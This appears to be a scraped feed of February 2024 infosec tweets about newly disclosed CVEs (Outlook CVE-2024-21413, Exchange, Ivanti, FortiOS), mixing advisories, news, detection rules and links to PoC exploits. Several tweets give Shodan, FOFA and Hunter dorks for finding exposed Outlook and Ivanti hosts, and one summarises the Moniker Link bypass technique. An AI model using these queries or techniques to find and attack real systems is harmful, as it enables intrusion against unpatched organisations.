* https://infosec.exchange/@raptor/111951116036793919

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1759092823708876814 _at 2024-02-18, 05:49:46_**
<blockquote>
🚨Alert🚨CVE-2024-21413 Microsoft Outlook RCE Flaw 
POC Released
📊219.8K+ Services are found on the https://t.co/WrjZaG0jRH
🔗Hunter:https://t.co/D4e39xFXWj
Dorks 👇👇👇
Hunter:https://t.co/q9rtuGgxk7="Outlook Web App"
FOFA: app="Microsoft-Outlook"
Shodan:http.component:"outlook… https://t.co/16ogWe26WZ
</blockquote>

* http://Hunter.how
* https://hunter.how/list?searchValue=product.name%3D%22Outlook%20Web%20App%22
* http://product.name

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>116</code></td>
<td>Favorites: <code>349</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1759059287089746408 _at 2024-02-18, 03:36:30_**
<blockquote>
RT @xaitax: CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC

https://t.co/sJPbySQBa3

Happy weekend.
</blockquote>

* https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>322</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberGovAU
**https://twitter.com/CyberGovAU/status/1759050721624834369 _at 2024-02-18, 03:02:28_**
<blockquote>
❗ ALERT ❗ Remote code execution vulnerability found in Microsoft Office Outlook (CVE-2024-21413), which enables malicious code execution.

All Microsoft Office Outlook users are strongly advised to follow Microsoft's mitigation advice.

Read more 👉 https://t.co/HU99VgYWnZ https://t.co/1Ezmw1ZrQA
</blockquote>

* https://www.cyber.gov.au/about-us/view-all-content/alerts-and-advisories/microsoft-office-outlook-remote-code-execution-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1759023540014379277 _at 2024-02-18, 01:14:27_**
<blockquote>
CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC
https://t.co/Sg9uRdeD4v
</blockquote>

* https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>280</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1758792873254744344 _at 2024-02-17, 09:57:52_**
<blockquote>
I wrote a YARA rule designed to identify emails attempting to exploit CVE-2024-21413, a vulnerability in Microsoft Outlook that permits the unauthorized acquisition of NTLM credentials

#100daysofYARA #YARA
https://t.co/RhIcyltkKV https://t.co/rSATinTuhk
</blockquote>

* https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>169</code></td>
<td>Favorites: <code>558</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1758770775035683036 _at 2024-02-17, 08:30:03_**
<blockquote>
Nice short blog post by @jichiep on exploiting Linux kernel (CVE-2023-0461: use-after-free in a TLS socket)

https://t.co/r6DXv5PexD

#Linux #cybersecurity https://t.co/ANS4DjVHEr
</blockquote>

* https://richiejp.com/linux-kernel-exploit-tls_context-uaf

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>170</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1758600064979673426 _at 2024-02-16, 21:11:43_**
<blockquote>
RT @xaitax: CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC

https://t.co/sJPbySQBa3

Happy weekend.
</blockquote>

* https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>322</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hetmehtaa
**https://twitter.com/hetmehtaa/status/1758584949324812508 _at 2024-02-16, 20:11:39_**
<blockquote>
PoC Exploit Released for Microsoft Outlook RCE Flaw – CVE-2024-21413 https://t.co/SMN2Em1qsi
</blockquote>

* https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1758580043570176421 _at 2024-02-16, 19:52:09_**
<blockquote>
RT @_JohnHammond: CVE-2024-21413 sure does do the needful https://t.co/837yWaYOw4
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>189</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1758518243227037773 _at 2024-02-16, 15:46:35_**
<blockquote>
⚠️ CISA warns of hackers exploiting a security flaw (CVE-2020-3259) in #Cisco Adaptive Security Appliance (ASA) and Firepower Threat Defense (FTD) software in Akira #ransomware attacks.

Learn more: https://t.co/l8tqH34IrZ

#cybersecurity #hacking #malware
</blockquote>

* https://thehackernews.com/2024/02/cisa-warning-akira-ransomware.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>218</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1758460154503115203 _at 2024-02-16, 11:55:46_**
<blockquote>
PoC Exploit Released for Microsoft Outlook RCE Flaw – CVE-2024-21413 https://t.co/VRVSMp0vLH
</blockquote>

* https://securityonline.info/poc-exploit-released-for-microsoft-outlook-rce-flaw-cve-2024-21413/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1758431091302494446 _at 2024-02-16, 10:00:16_**
<blockquote>
PoC Exploit for Windows NTLM Privilege Escalation Flaw (CVE-2023-21746) Published https://t.co/TC5pDRZhOo    #Pentesting #CyberSecurity #Infosec https://t.co/yQgXNc2QRr
</blockquote>

* https://securityonline.info/poc-exploit-for-windows-ntlm-privilege-escalation-flaw-cve-2023-21746-published/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1758415925244477656 _at 2024-02-16, 09:00:01_**
<blockquote>
CVE-2024-21410: 0day in MS Exchange, 9.8 rating 🔥

The vulnerability allows unauthenticated attackers to perform privilege escalation in NTLM relay attacks.

Search at https://t.co/hv7QKSqxTR:
👉🏻 Link: https://t.co/DUP1HGQHKo

#cybersecurity #vulnerability_map https://t.co/gl7ioiKGAN
</blockquote>

* http://Netlas.io
* https://nt.ls/YwRUO

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1758244274892677453 _at 2024-02-15, 21:37:56_**
<blockquote>
RT @reverseame: Analysis of CVE-2023-46214 + PoC https://t.co/YDe8yWVUMv
</blockquote>

* https://blog.hrncirik.net/cve-2023-46214-analysis

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1758050204631130393 _at 2024-02-15, 08:46:46_**
<blockquote>
Doesn’t sound very good 😐 #zoom CVE-2024-24691
https://t.co/6hv1j03brw https://t.co/VxsoU4gnTw
</blockquote>

* https://www.zoom.com/en/trust/security-bulletin/ZSB-24008/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>282</code></td>
<td>Favorites: <code>813</code></td>
</tr></table>

---

# reverseame
**https://twitter.com/reverseame/status/1758019840906756331 _at 2024-02-15, 06:46:07_**
<blockquote>
PoC Exploit for Windows NTLM Privilege Escalation Flaw (CVE-2023-21746) Published https://t.co/XtF371wwEV
</blockquote>

* https://securityonline.info/poc-exploit-for-windows-ntlm-privilege-escalation-flaw-cve-2023-21746-published/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>240</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1758003732036415501 _at 2024-02-15, 05:42:06_**
<blockquote>
RT @TheHackersNews: ⚠️ Attention, Sysadmins! A newly discovered critical #vulnerability (CVE-2024-21410) in #Microsoft Exchange Server is c…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# e11i0t_4lders0n
**https://twitter.com/e11i0t_4lders0n/status/1758001474951626780 _at 2024-02-15, 05:33:08_**
<blockquote>
CVE-2024-21893: SSRF Vulnerability in Ivanti Connect Secure

Shodan Dork : title:"Ivanti Connect" hostname:"target.*"

Exploit: https://t.co/a2ZrL7aI8j

#bugbounty #bugbountytips https://t.co/7ycEXg9oc7
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21893.py

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1757998290308633051 _at 2024-02-15, 05:20:29_**
<blockquote>
⚠️ Attention, Sysadmins! A newly discovered critical #vulnerability (CVE-2024-21410) in #Microsoft Exchange Server is currently being actively exploited.

Details here → https://t.co/5M0IxD6eTX

Attackers can hijack user accounts &amp; gain admin-level control. Update ASAP!
</blockquote>

* https://thehackernews.com/2024/02/critical-exchange-server-flaw-cve-2024.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1757990110656704968 _at 2024-02-15, 04:47:58_**
<blockquote>
CVE-2024-21410 (CVSS 9.8): Microsoft Exchange Server Flaw is Actively Exploited https://t.co/MkXU9AX0QJ
</blockquote>

* https://securityonline.info/cve-2024-21410-cvss-9-8-microsoft-exchange-server-flaw-is-actively-exploited/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1757990065819513342 _at 2024-02-15, 04:47:48_**
<blockquote>
NGINX Releases Urgent Patch for HTTP/3 Vulnerabilities (CVE-2024-24989, CVE-2024-24990) https://t.co/Xs3cVZmrAU
</blockquote>

* https://securityonline.info/nginx-releases-urgent-patch-for-http-3-vulnerabilities-cve-2024-24989-cve-2024-24990/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# __kokumoto
**https://twitter.com/__kokumoto/status/1757908196193443995 _at 2024-02-14, 23:22:28_**
<blockquote>
Outlookの新規任意コード実行脆弱性"Moniker Link" (CVE-2024-21413)は攻撃に使用するのが容易。Check Point社報告。file://プロトコルで始まり、!に続く任意の文字列で終わる、攻撃者のサーバへの悪意あるリンクがOutlookのセキュリティ制限を迂回できるもの。 https://t.co/3VeBeUu2eR
</blockquote>

* https://www.bleepingcomputer.com/news/security/new-critical-microsoft-outlook-rce-bug-is-trivial-to-exploit/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1757885026853670978 _at 2024-02-14, 21:50:24_**
<blockquote>
Google Chrome 0-Day PoC Code Released : https://t.co/AbEzlS7qup 

Full Chain Analysis of CVE-2022-4262, a non-trivial feedback slot type confusion in V8 : https://t.co/9Bjlsvdcmd  credits @bjrjk
</blockquote>

* https://github.com/bjrjk/CVE-2022-4262/blob/main/FA/FA.md
* https://github.com/bjrjk/CVE-2022-4262/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1757863527677886769 _at 2024-02-14, 20:24:59_**
<blockquote>
From Patch Tuesday to Exploit Wednesday 😱

Microsoft is now marking CVE-2024-21413  as exploited 0day (MS Office remote code execution -- CVSS 9.8)

https://t.co/qx8jiK5MNK https://t.co/7HmsbuHJwj
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1757845249223704987 _at 2024-02-14, 19:12:21_**
<blockquote>
Wow I just happened to note that Microsoft has updated their Security Update (https://t.co/lgAbbnGACv) now saying they have detected in-the-wild attacks for the #MonikerLink CVE-2024-21413 bug! https://t.co/PnnJcBTUpX
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1757838555869487603 _at 2024-02-14, 18:45:45_**
<blockquote>
CVE-2024-21412: Internet Shortcut Files Security Feature Bypass Vulnerability
An unauthenticated attacker could send the targeted user a specially crafted file that is designed to bypass displayed security checks. https://t.co/yvWq5rcGzW
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# nav1n0x
**https://twitter.com/nav1n0x/status/1757500195032465835 _at 2024-02-13, 20:21:13_**
<blockquote>
Juniper RCE CVE-2023-36845 PoC  #BugBounty 

https://t.co/FNl1AnZmmS
</blockquote>

* https://pastebin.com/E1WxLsEv

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1757487375544955053 _at 2024-02-13, 19:30:17_**
<blockquote>
RT @TrendMicro: CVE-2024-21412 is an active zero-day vulnerability that was disclosed by Trend Micro's @thezdi to Microsoft &amp; published tod…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TrendMicro
**https://twitter.com/TrendMicro/status/1757485603195654385 _at 2024-02-13, 19:23:14_**
<blockquote>
CVE-2024-21412 is an active zero-day vulnerability that was disclosed by Trend Micro's @thezdi to Microsoft &amp; published today. Trend customers are protected; organizations should take immediate action. Video below &amp; more info: https://t.co/yyQ7uRoDDL https://t.co/RBNKbLUSwU
</blockquote>

* https://bit.ly/3P5rhkb
* https://bit.ly/3HYNqfR

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# TrendMicroRSRCH
**https://twitter.com/TrendMicroRSRCH/status/1757483531494719725 _at 2024-02-13, 19:15:01_**
<blockquote>
APT GROUP WATER HYDRA EXPLOITS CVE-2024-21412 VULNERABILITY IN ZERO-DAY ATTACK

Earlier today, Microsoft released a patch for CVE-2024-21412, a previously unknown vulnerability in Microsoft’s Windows Defender SmartScreen that allowed threat actors to bypass its security features… https://t.co/2T14kk61DL
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>235</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1757443088685904377 _at 2024-02-13, 16:34:18_**
<blockquote>
QNAP have patched an unauthenticated command injection vuln we reported, CVE-2023-47218, affecting QTS and QuTS Hero based systems. Vuln is in a component quick.cgi, which helps configure uninitialized systems. Read our disclosure here: https://t.co/b9ZYV6uxl8
</blockquote>

* https://www.rapid7.com/blog/post/2024/02/13/cve-2023-47218-qnap-qts-and-quts-hero-unauthenticated-command-injection-fixed/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1757422290663362789 _at 2024-02-13, 15:11:40_**
<blockquote>
CVE-2023-50358: A zero-day vulnerability affecting QNAP NAS devices https://t.co/5Hidm3fgAf
</blockquote>

* https://securityonline.info/cve-2023-50358-a-zero-day-vulnerability-affecting-qnap-nas-devices/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>123</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1757405309532881379 _at 2024-02-13, 14:04:11_**
<blockquote>
Showcasing CVE-2023-43208: the NextGen Mirth Connect Pre-Authentication Remote Code Execution exploit! Stepping through Horizon3's writeup, converting their PoC to run against a Windows target, and writing a very simple Sigma rule to detect exploitation! https://t.co/iiIN52HB9y https://t.co/oXllUPQSyY
</blockquote>

* https://youtube.com/johnhammond010

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1757155716912033978 _at 2024-02-12, 21:32:23_**
<blockquote>
RT @Shadowserver: Ivanti Connect Secure CVE-2024-22024 activity:  we started seeing exploitation attempts to '/dana-na/auth/saml-sso.cgi' F…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1757151585417806261 _at 2024-02-12, 21:15:58_**
<blockquote>
RT @hosselot: "Tianfu Cup 2023" Chrome use-after-free vulnerability in WebAudio bug entry (CVE-2023-5996 [1497859]) is now open with a PoC:…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1757049551888719973 _at 2024-02-12, 14:30:32_**
<blockquote>
"Tianfu Cup 2023" Chrome use-after-free vulnerability in WebAudio bug entry (CVE-2023-5996 [1497859]) is now open with a PoC:
https://t.co/sJg5PyPnzk
</blockquote>

* https://issues.chromium.org/issues/40075943

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1756889250245607833 _at 2024-02-12, 03:53:33_**
<blockquote>
CVE-2024-0985: PostgreSQL’s Critical Security Flaw Exposed https://t.co/pPs6f3vITh
</blockquote>

* https://securityonline.info/cve-2024-0985-postgresqls-critical-security-flaw-exposed/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# 0xdf_
**https://twitter.com/0xdf_/status/1756644379656118319 _at 2024-02-11, 11:40:31_**
<blockquote>
Played with the new File Read / RCE vulnerability in Jenkins (CVE-2024-23897). Go over the advisory, comparing using the CLI to a Python POC, figuring out which commands read the most data, and a really weird Bash behavior that I can't explain.

https://t.co/pio3YRm9gP
</blockquote>

* https://www.youtube.com/watch?v=toPJhfy-wvw

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1756597155689619699 _at 2024-02-11, 08:32:52_**
<blockquote>
RT @bjrjk: Full chain analysis for CVE-2022-4262 to commemorate my time spent on this non-trivial type confusion! Shoutout to @mistymntncop…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1756578130637029724 _at 2024-02-11, 07:17:16_**
<blockquote>
RT @bjrjk: Full chain analysis for CVE-2022-4262 to commemorate my time spent on this non-trivial type confusion! Shoutout to @mistymntncop…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# JPD_1206
**https://twitter.com/JPD_1206/status/1756229838237467037 _at 2024-02-10, 08:13:17_**
<blockquote>
I got the CVE-2024-22024

#bugbounty #intigriti #hackerone #XXE https://t.co/au3vVt6qWj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>171</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1756211082404692004 _at 2024-02-10, 06:58:45_**
<blockquote>
⚠️ Attention FCEB agencies: CISA confirms active exploitation of CVE-2024-21762, the latest critical security flaw in FortiOS SSL VPN.

Learn more: https://t.co/n0hVxPbOkv

Apply fixes by February 16, 2024, to mitigate threats and secure networks.
</blockquote>

* https://thehackernews.com/2024/02/fortinet-warns-of-critical-fortios-ssl.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1756208784114958399 _at 2024-02-10, 06:49:37_**
<blockquote>
CVE-2024-24806: Critical SSRF Flaw Found in libuv – a Multi-Platform C Library https://t.co/EQL5scHyTw
</blockquote>

* https://securityonline.info/cve-2024-24806-critical-ssrf-flaw-found-in-libuv-a-multi-platform-c-library/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1756144512202662312 _at 2024-02-10, 02:34:13_**
<blockquote>
RT @Mandiant: Mandiant and VMware Product Security found that UNC3886 has been exploiting CVE-2023-20867 since 2021.

Mandiant recommends V…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1756076481602806042 _at 2024-02-09, 22:03:54_**
<blockquote>
RT @DhiyaneshDK: Scan for Ivanti Connect Secure - XXE
(CVE-2024-22024) using nuclei templates. 🚨 @pdnuclei

Vulnerability Analysis  : https…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# M_haggis
**https://twitter.com/M_haggis/status/1756055841143480723 _at 2024-02-09, 20:41:53_**
<blockquote>
Ivanti CVE-2024-22024 XXE POC 

&gt; FOR EDUCATIONAL PURPOSE AND AUTHORIZED TESTING ONLY.

https://t.co/h5PuwGQXzG
</blockquote>

* https://github.com/0dteam/CVE-2024-22024

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1756053159980712165 _at 2024-02-09, 20:31:13_**
<blockquote>
We believe the public PoC for for CVE-2020-3580 XSS affecting Cisco ASA and FTD may be being utilized to curate a list of IP's that are likely to be vulnerable to CVE-2020-3259, an unauthenticated memory disclosure vulnerability, recently attributed to Akira ransomware. https://t.co/QeGRd2lmCj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1756049646269641022 _at 2024-02-09, 20:17:16_**
<blockquote>
RT @GossiTheDog: Regarding the latest Ivanti Pulse Secure vulnerability disclosure - they claimed they found CVE-2024-22024 internally and…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1756048645885948028 _at 2024-02-09, 20:13:17_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1756048009043861595 _at 2024-02-09, 20:10:45_**
<blockquote>
RT @GossiTheDog: Regarding the latest Ivanti Pulse Secure vulnerability disclosure - they claimed they found CVE-2024-22024 internally and…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1756027736353562925 _at 2024-02-09, 18:50:12_**
<blockquote>
🚩#Fortinet security updates address vulnerabilities in #FortiOS &amp; #FortiClientEMS, including 1 critical #RCE vulnerability (#CVE-2024-21762) being exploited in the wild. @CISAgov encourages users &amp; admin to apply updates. More 👉 https://t.co/cf9s0WnJ6N #Cybersecurity #InfoSec
</blockquote>

* http://cisa.gov/news-events/alerts/2024/02/09/fortinet-releases-security-advisories-fortios-and-forticlientems-0

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1755988845642833929 _at 2024-02-09, 16:15:40_**
<blockquote>
No Click Required: PoC Available for ClamAV Command Injection Bug (CVE-2024-20328) https://t.co/V5N7qBCCmK
</blockquote>

* https://securityonline.info/no-click-required-poc-available-for-clamav-command-injection-bug-cve-2024-20328/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1755974318058541414 _at 2024-02-09, 15:17:56_**
<blockquote>
RT @GossiTheDog: Regarding the latest Ivanti Pulse Secure vulnerability disclosure - they claimed they found CVE-2024-22024 internally and…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1755955514091979207 _at 2024-02-09, 14:03:13_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1755949758160523570 _at 2024-02-09, 13:40:20_**
<blockquote>
